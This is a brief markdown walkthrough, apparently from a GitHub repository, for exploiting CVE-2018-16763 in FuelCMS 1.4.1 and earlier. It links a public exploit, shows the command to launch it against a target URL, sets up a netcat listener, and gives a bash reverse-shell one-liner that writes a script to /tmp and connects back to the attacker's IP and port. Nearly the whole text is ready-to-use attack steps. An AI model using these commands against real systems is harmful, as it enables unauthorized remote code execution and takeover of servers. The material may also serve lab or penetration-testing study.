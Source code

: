 # FuelCMS - CVE-2018-16763

## Requirements

 - FuelCMS version <= 1.4.1

## Exploitation

### Download the exploit 

https://www.exploit-db.com/exploits/50477

![](./imgs/exploit.png)

### Trigering the exploit

```
python exploit.py -u http://TARGET/ 
```
![](./imgs/exploit_trigger.png)

### Setting up a netcat listener

```
nc -lvnp [PORT]
```
![](./imgs/stable_shell.png)

### Get a stabilized shell

```
echo "sh -i >& /dev/tcp/[IP ADRESS]/[PORT] 0>&1" > /tmp/shell.sh; bash /tmp/shell.sh
```
![](./imgs/shell_result.png)

## References
 - https://www.getfuelcms.com/
 - https://www.exploit-db.com/exploits/50477
